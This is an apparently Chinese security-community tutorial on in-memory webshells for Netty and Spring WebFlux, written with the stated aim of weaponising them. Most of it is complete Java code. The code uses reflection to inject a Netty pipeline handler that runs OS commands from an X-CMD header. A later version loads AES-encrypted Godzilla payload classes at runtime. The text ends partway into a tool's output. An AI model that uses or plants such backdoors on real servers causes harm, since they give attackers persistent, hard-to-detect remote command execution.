# 奇安信攻防社区-【Web实战】内存马系列 Netty/WebFlux 内存马

### 【Web实战】内存马系列 Netty/WebFlux 内存马

XXL-JOB EXECUTOR/Flink 对应的内存马

参考：  
[https://xz.aliyun.com/t/12388?ref=www.ctfiot.com#toc-8](https://xz.aliyun.com/t/12388?ref=www.ctfiot.com#toc-8)  
[https://xz.aliyun.com/t/11331#toc-0](https://xz.aliyun.com/t/11331#toc-0)  
[https://xz.aliyun.com/t/12952#toc-6](https://xz.aliyun.com/t/12952#toc-6)  
[https://github.com/cxyxiaokui/spring-boot-examples/blob/master/doc/webflux/Spring%20Boot%202%20%E5%BF%AB%E9%80%9F%E6%95%99%E7%A8%8B%EF%BC%9AWebFlux%20Restful%20CRUD%20%E5%AE%9E%E8%B7%B5%EF%BC%88%E4%B8%89%EF%BC%89.md](https://github.com/cxyxiaokui/spring-boot-examples/blob/master/doc/webflux/Spring%20Boot%202%20%E5%BF%AB%E9%80%9F%E6%95%99%E7%A8%8B%EF%BC%9AWebFlux%20Restful%20CRUD%20%E5%AE%9E%E8%B7%B5%EF%BC%88%E4%B8%89%EF%BC%89.md)  
[https://mp.weixin.qq.com/s/S15erJhHQ4WCVfF0XxDYMg](https://mp.weixin.qq.com/s/S15erJhHQ4WCVfF0XxDYMg)

# 前言

作为Java内存马板块最冷门的一个，文章也不是很多，但实战中可能会遇到，我们需要想办法武器化。比如XXL-JOB的excutor就是一个基于netty的应用，实际上也没太认真去分析过这些内存马，还是逃不掉的捏。

# 环境搭建

这里参考Spring WebFlux的搭建教程，在上述参考链接中，另外需要准备一下Java-object-searcher作为我们寻找类的辅助工具，c0ny大师傅写的一个工具，对于内存马构造还是比较好使用的，事不宜迟，开始吧。  
IDEA创建一个Spring reactive项目，Netty是响应式的服务器。然后我们首先研究netty层的内存马

# Netty内存马

Netty他也是一个中间件，但他比较独特，他是动态生成pipeline然后进行处理。Netty内存马注入的关键就是找插入类似Filter东西的位置。本人对netty中间件研究疏浅，c0ny1大佬直接给出了结论，那就是  
`CompositeChannelPipelineConfigurer#compositeChannelPipelineConfigurer`



```java
 static ChannelPipelineConfigurer compositeChannelPipelineConfigurer(ChannelPipelineConfigurer configurer, ChannelPipelineConfigurer other) {
            if (configurer == ChannelPipelineConfigurer.emptyConfigurer()) {
                return other;
            } else if (other == ChannelPipelineConfigurer.emptyConfigurer()) {
                return configurer;
            } else {
                int length = 2;
                ChannelPipelineConfigurer[] thizConfigurers;
                if (configurer instanceof CompositeChannelPipelineConfigurer) {
                    thizConfigurers = ((CompositeChannelPipelineConfigurer)configurer).configurers;
                    length += thizConfigurers.length - 1;
                } else {
                    thizConfigurers = null;
                }

                ChannelPipelineConfigurer[] otherConfigurers;
                if (other instanceof CompositeChannelPipelineConfigurer) {
                    otherConfigurers = ((CompositeChannelPipelineConfigurer)other).configurers;
                    length += otherConfigurers.length - 1;
                } else {
                    otherConfigurers = null;
                }

                ChannelPipelineConfigurer[] newConfigurers = new ChannelPipelineConfigurer[length];
                int pos;
                if (thizConfigurers != null) {
                    pos = thizConfigurers.length;
                    System.arraycopy(thizConfigurers, 0, newConfigurers, 0, pos);
                } else {
                    pos = 1;
                    newConfigurers[0] = configurer;
                }

                if (otherConfigurers != null) {
                    System.arraycopy(otherConfigurers, 0, newConfigurers, pos, otherConfigurers.length);
                } else {
                    newConfigurers[pos] = other;
                }

                return new CompositeChannelPipelineConfigurer(newConfigurers);
            }
        }
    }
```

默认other是空的，所以直接使用spring gateway默认的Configurer，假如other不为空，就会将2个configurer合二为一成一个新的configurer。  
那么我们需要思考的就是如何注入一个other，添加恶意的pipeline，通过翻阅源码可以找到reactor.netty.transport.TransportConfig类的doOnChannelInit属性存储着other参数

```java
package com.example.webfluxmem;
import me.gv7.tools.josearcher.entity.Blacklist;
import me.gv7.tools.josearcher.entity.Keyword;
import me.gv7.tools.josearcher.searcher.SearchRequstByBFS;
import org.springframework.core.annotation.Order;
import org.springframework.stereotype.Component;
import org.springframework.web.server.ServerWebExchange;
import org.springframework.web.server.WebFilter;
import org.springframework.web.server.WebFilterChain;
import reactor.core.publisher.Mono;

import java.util.ArrayList;
import java.util.List;

@Component
@Order(value = 2)
public class NormalFilter implements WebFilter {
    @Override
    public Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {
        //设置搜索类型包含Request关键字的对象
        List<Keyword> keys = new ArrayList<>();
        keys.add(new Keyword.Builder().setField_type("doOnChannelInit").build());
        List<Blacklist> blacklists = new ArrayList<>();
        blacklists.add(new Blacklist.Builder().setField_type("java.io.File").build());
        SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);
        searcher.setBlacklists(blacklists);
        searcher.setIs_debug(true);
        searcher.setMax_search_depth(15);
        searcher.setReport_save_path("E:\\CTFLearning");
        searcher.searchObject();
        return chain.filter(exchange);
    }
}
```

使用C0ny1大佬的java-object-searcher辅助工具，我们可以较快的定位到doOnChannelInit的获取方式

  
我们可以尝试如下获取

```java
try {
            Method getThreads = Thread.class.getDeclaredMethod("getThreads");
            getThreads.setAccessible(true);
            Object threads = getThreads.invoke(null);

            for (int i = 0; i < Array.getLength(threads); i++) {
                Object thread = Array.get(threads, i);
                if (thread != null && thread.getClass().getName().contains("NettyWebServer")) {
                    Field _val$disposableServer = thread.getClass().getDeclaredField("val$disposableServer");
                    _val$disposableServer.setAccessible(true);
                    Object val$disposableServer = _val$disposableServer.get(thread);
                    Field _config = val$disposableServer.getClass().getSuperclass().getDeclaredField("config");
                    _config.setAccessible(true);
                    Object config = _config.get(val$disposableServer);
                    Field _doOnChannelInit = config.getClass().getSuperclass().getSuperclass().getDeclaredField("doOnChannelInit");
                    _doOnChannelInit.setAccessible(true);
                    msg = "inject-success";
                }
            }
        }catch (Exception e){
            msg = "inject-error";
        }
```

  
获取到了config对象，他实际上是一个reactor.netty.transport.TransportConfig类。然后从父类获取doOnChannelInit属性即可。

  
最后可以造出如下的内存马

```java
package com.example.webfluxmem;

import io.netty.buffer.Unpooled;
import io.netty.channel.*;
import io.netty.handler.codec.http.*;
import io.netty.util.CharsetUtil;
import reactor.netty.ChannelPipelineConfigurer;
import reactor.netty.ConnectionObserver;

import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.net.SocketAddress;
import java.util.Scanner;

public class NettyMemshell extends ChannelDuplexHandler implements ChannelPipelineConfigurer {
    public static String doInject(){
        String msg = "inject-start";
        try {
            Method getThreads = Thread.class.getDeclaredMethod("getThreads");
            getThreads.setAccessible(true);
            Object threads = getThreads.invoke(null);

            for (int i = 0; i < Array.getLength(threads); i++) {
                Object thread = Array.get(threads, i);
                if (thread != null && thread.getClass().getName().contains("NettyWebServer")) {
                    Field _val$disposableServer = thread.getClass().getDeclaredField("val$disposableServer");
                    _val$disposableServer.setAccessible(true);
                    Object val$disposableServer = _val$disposableServer.get(thread);
                    Field _config = val$disposableServer.getClass().getSuperclass().getDeclaredField("config");
                    _config.setAccessible(true);
                    Object config = _config.get(val$disposableServer);
                    Field _doOnChannelInit = config.getClass().getSuperclass().getSuperclass().getDeclaredField("doOnChannelInit");
                    _doOnChannelInit.setAccessible(true);
                    _doOnChannelInit.set(config, new NettyMemshell());
                    msg = "inject-success";
                }
            }
        }catch (Exception e){
            msg = "inject-error";
        }
        return msg;
    }

    @Override
    // Step1. 作为一个ChannelPipelineConfigurer给pipline注册Handler
    public void onChannelInit(ConnectionObserver connectionObserver, Channel channel, SocketAddress socketAddress) {
        ChannelPipeline pipeline = channel.pipeline();
        // 将内存马的handler添加到spring层handler的前面
        pipeline.addBefore("reactor.left.httpTrafficHandler","memshell_handler",new NettyMemshell());
    }

    @Override
    // Step2. 作为Handler处理请求，在此实现内存马的功能逻辑
    public void channelRead(ChannelHandlerContext ctx, Object msg) throws Exception {
        if(msg instanceof HttpRequest){
            HttpRequest httpRequest = (HttpRequest)msg;
            try {
                if(httpRequest.headers().contains("X-CMD")) {
                    String cmd = httpRequest.headers().get("X-CMD");
                    String execResult = new Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();
                    // 返回执行结果
                    send(ctx, execResult, HttpResponseStatus.OK);
                    return;
                }
            }catch (Exception e){
                e.printStackTrace();
            }
        }
        ctx.fireChannelRead(msg);
    }

    private void send(ChannelHandlerContext ctx, String context, HttpResponseStatus status) {
        FullHttpResponse response = new DefaultFullHttpResponse(HttpVersion.HTTP_1_1, status, Unpooled.copiedBuffer(context, CharsetUtil.UTF_8));
        response.headers().set(HttpHeaderNames.CONTENT_TYPE, "text/plain; charset=UTF-8");
        ctx.writeAndFlush(response).addListener(ChannelFutureListener.CLOSE);
    }
}
```

其中

```java
public void onChannelInit(ConnectionObserver connectionObserver, Channel channel, SocketAddress socketAddress) {
        ChannelPipeline pipeline = channel.pipeline();
        // 将内存马的handler添加到spring层handler的前面
        pipeline.addBefore("reactor.left.httpTrafficHandler","memshell_handler",new NettyMemshell());
    }
```

这一段是将该类当做一个handler注入，因此需要继承ChannelDuplexHandler这个类，channelread对应的就是它的方法，然后onChannelnit对应的就是ChannelPipelineConfigurer的方法。

上述代码也不是特别的长。逻辑很简单，主要是挖掘的思路，我们看一下other是怎么被分配过去的。

```java
package com.example.webfluxmem;
import me.gv7.tools.josearcher.entity.Blacklist;
import me.gv7.tools.josearcher.entity.Keyword;
import me.gv7.tools.josearcher.searcher.SearchRequstByBFS;
import org.springframework.core.annotation.Order;
import org.springframework.stereotype.Component;
import org.springframework.web.server.ServerWebExchange;
import org.springframework.web.server.WebFilter;
import org.springframework.web.server.WebFilterChain;
import reactor.core.publisher.Mono;

import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.ArrayList;
import java.util.List;

@Component
@Order(value = 2)
public class NormalFilter implements WebFilter {
    @Override
    public Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {
        NettyMemshell.doInject();
        return null;
    }
}
```

这里就直接注入，调试分析一下

  
在initChannel方法进行初始化时，将我们上面恶意注入的configurer注入进去了

  
最后合二为一，将NettyMemshell的索引放到首位，也就造成了命令执行

  
假如我们需要假如哥斯拉逻辑的话自己完善一下即可

```java
package com.example.webfluxmem;

import io.netty.buffer.ByteBuf;
import io.netty.buffer.Unpooled;
import io.netty.channel.*;
import io.netty.handler.codec.http.*;
import io.netty.handler.codec.http.multipart.DefaultHttpDataFactory;
import io.netty.handler.codec.http.multipart.HttpPostRequestDecoder;
import io.netty.handler.codec.http.multipart.InterfaceHttpData;
import io.netty.handler.codec.http.multipart.MemoryAttribute;
import io.netty.util.CharsetUtil;
import reactor.netty.ChannelPipelineConfigurer;
import reactor.netty.ConnectionObserver;

import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.net.SocketAddress;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.*;

public class NettyMemshell extends ChannelDuplexHandler implements ChannelPipelineConfigurer {
    public static String doInject(){
        String msg = "inject-start";
        try {
            Method getThreads = Thread.class.getDeclaredMethod("getThreads");
            getThreads.setAccessible(true);
            Object threads = getThreads.invoke(null);

            for (int i = 0; i < Array.getLength(threads); i++) {
                Object thread = Array.get(threads, i);
                if (thread != null && thread.getClass().getName().contains("NettyWebServer")) {
                    Field _val$disposableServer = thread.getClass().getDeclaredField("val$disposableServer");
                    _val$disposableServer.setAccessible(true);
                    Object val$disposableServer = _val$disposableServer.get(thread);
                    Field _config = val$disposableServer.getClass().getSuperclass().getDeclaredField("config");
                    _config.setAccessible(true);
                    Object config = _config.get(val$disposableServer);
                    Field _doOnChannelInit = config.getClass().getSuperclass().getSuperclass().getDeclaredField("doOnChannelInit");
                    _doOnChannelInit.setAccessible(true);
                    _doOnChannelInit.set(config, new NettyMemshell());
                    msg = "inject-success";
                }
            }
        }catch (Exception e){
            msg = "inject-error";
        }
        return msg;
    }
    String xc = "3c6e0b8a9c15224a";
    String pass = "pass";
    String md5 = md5(pass + xc);

    private static Class defClass(byte[] classbytes)throws Exception{
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[0],Thread.currentThread().getContextClassLoader());
        Method method = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
        method.setAccessible(true);
        return (Class) method.invoke(urlClassLoader,classbytes,0,classbytes.length);
    }

    public byte[] x(byte[] s, boolean m) {
        try {
            javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
            c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
            return c.doFinal(s);
        } catch(Exception e) {
            return null;
        }
    }
    public static String md5(String s) {
        String ret = null;
        try {
            java.security.MessageDigest m;
            m = java.security.MessageDigest.getInstance("MD5");
            m.update(s.getBytes(), 0, s.length());
            ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
        } catch(Exception e) {}
        return ret;
    }
    public static String base64Encode(byte[] bs) throws Exception {
        Class base64;
        String value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
            value = (String) Encoder.getClass().getMethod("encodeToString", new Class[] {
                    byte[].class
            }).invoke(Encoder, new Object[] {
                    bs
            });
        } catch(Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Encoder");
                Object Encoder = base64.newInstance();
                value = (String) Encoder.getClass().getMethod("encode", new Class[] {
                        byte[].class
                }).invoke(Encoder, new Object[] {
                        bs
                });
            } catch(Exception e2) {}
        }
        return value;
    }
    public static byte[] base64Decode(String bs) throws Exception {
        Class base64;
        byte[] value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[] {
                    String.class
            }).invoke(decoder, new Object[] {
                    bs
            });
        } catch(Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Decoder");
                Object decoder = base64.newInstance();
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[] {
                        String.class
                }).invoke(decoder, new Object[] {
                        bs
                });
            } catch(Exception e2) {}
        }
        return value;
    }

    @Override
    // Step1. 作为一个ChannelPipelineConfigurer给pipline注册Handler
    public void onChannelInit(ConnectionObserver connectionObserver, Channel channel, SocketAddress socketAddress) {
        ChannelPipeline pipeline = channel.pipeline();
        // 将内存马的handler添加到spring层handler的前面
        pipeline.addBefore("reactor.left.httpTrafficHandler","memshell_handler",new NettyMemshell());
    }

    private static ThreadLocal<AbstractMap.SimpleEntry<HttpRequest,ByteArrayOutputStream>> requestThreadLocal = new ThreadLocal<>();
    private static   Class payload;

    @Override
    // Step2. 作为Handler处理请求，在此实现内存马的功能逻辑
    public void channelRead(ChannelHandlerContext ctx, Object msg) throws Exception {
        if (msg instanceof HttpRequest){
            HttpRequest httpRequest = (HttpRequest) msg;
            AbstractMap.SimpleEntry<HttpRequest,ByteArrayOutputStream> simpleEntry = new AbstractMap.SimpleEntry(httpRequest,new ByteArrayOutputStream());
            requestThreadLocal.set(simpleEntry);
        }else if(msg instanceof HttpContent){
            HttpContent httpContent = (HttpContent)msg;
            AbstractMap.SimpleEntry<HttpRequest,ByteArrayOutputStream> simpleEntry = requestThreadLocal.get();
            if (simpleEntry == null){
                return;
            }
            HttpRequest httpRequest = simpleEntry.getKey();
            ByteArrayOutputStream contentBuf = simpleEntry.getValue();

            ByteBuf byteBuf = httpContent.content();
            int size = byteBuf.capacity();
            byte[] requestContent = new byte[size];
            byteBuf.getBytes(0,requestContent,0,requestContent.length);

            contentBuf.write(requestContent);

            if (httpContent instanceof LastHttpContent){
                try {
                    byte[] data =  x(contentBuf.toByteArray(), false);

                    if (payload == null) {
                        payload = defClass(data);
                        send(ctx,x(new byte[0], true),HttpResponseStatus.OK);
                    } else {
                        Object f = payload.newInstance();
                        //初始化内存流
                        java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
                        //将内存流传递给哥斯拉的payload
                        f.equals(arrOut);
                        //将解密后的数据传递给哥斯拉Payload
                        f.equals(data);
                        //通知哥斯拉Payload执行shell逻辑
                        f.toString();
                        //调用arrOut.toByteArray()获取哥斯拉Payload的输出
                        send(ctx,x(arrOut.toByteArray(), true),HttpResponseStatus.OK);
                    }
                } catch(Exception e) {
                    ctx.fireChannelRead(httpRequest);
                }
            }else {
                ctx.fireChannelRead(msg);
            }

        }

    }

    private void send(ChannelHandlerContext ctx, byte[] context, HttpResponseStatus status) {
        FullHttpResponse response = new DefaultFullHttpResponse(HttpVersion.HTTP_1_1, status, Unpooled.copiedBuffer(context));
        response.headers().set(HttpHeaderNames.CONTENT_TYPE, "text/plain; charset=UTF-8");
        ctx.writeAndFlush(response).addListener(ChannelFutureListener.CLOSE);
    }
}
```

这里构造哥斯拉内存马其实有个问题，就是Netty对于处理请求参数是不完善的，不像tomcat和springboot可以通过request对象直接获取POST和GET请求参数，netty的request只可以获取一些基础的headers，因此我们要想办法获取到哥斯拉传进来的POST数据。这里我需要解释一下netty关于处理请求的特点，他会将body和header部分分为2个对象发送，首先是header对象。

  
首先会接收到一个DefaultHttpRequest对象，这个对象内部储存了请求头和请求类型等数据。

  
然后处理完header后就是body

  
对应的有一个DeafaultHttpContent对象。它则储存着body的内容，这样就可以获取哥斯拉的payload了。

# WebFlux内存马

其实我一开始还以为WebFlux就是Netty，后面发现自己铸币了，这是2种东西，WebFlux是基于响应式reactive的框架。Tomcat和Spring都有自己类似的Listener/inceptor/filter  
那么我们WebFlux肯定也少不了，它就是WebFIlter

  
那我们如何确认注入点呢，上述参考文章里的一位师傅给出的方法我觉得是比较妙的，首先创建一个普通的FIlter，随后再用java-object-searcher去搜索这个自定义filter的名字，这样就可以知道他储存在哪儿了。受益匪浅。

```java
package com.example.webfluxmem;
import me.gv7.tools.josearcher.entity.Blacklist;
import me.gv7.tools.josearcher.entity.Keyword;
import me.gv7.tools.josearcher.searcher.SearchRequstByBFS;
import org.springframework.core.annotation.Order;
import org.springframework.stereotype.Component;
import org.springframework.web.server.ServerWebExchange;
import org.springframework.web.server.WebFilter;
import org.springframework.web.server.WebFilterChain;
import reactor.core.publisher.Mono;

import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.ArrayList;
import java.util.List;

@Component
@Order(value = 2)
public class NormalFilter implements WebFilter {
    @Override
    public Mono<Void> filter(ServerWebExchange exchange, WebFilterChain chain) {
        //设置搜索类型包含Request关键字的对象
        List<Keyword> keys = new ArrayList<>();
        keys.add(new Keyword.Builder().setField_type("NormalFilter").build());
        List<Blacklist> blacklists = new ArrayList<>();
        blacklists.add(new Blacklist.Builder().setField_type("java.io.File").build());
        SearchRequstByBFS searcher = new SearchRequstByBFS(Thread.currentThread(),keys);
        searcher.setBlacklists(blacklists);
        searcher.setIs_debug(true);
        searcher.setMax_search_depth(15);
        searcher.setReport_save_path("E:\\CTFLearning");
        searcher.searchObject();
        NettyMemshell.doInject();
        return chain.filter(exchange);
    }
}
```

最终结果如下。

```php
#############################################################
   Java Object Searcher v0.01
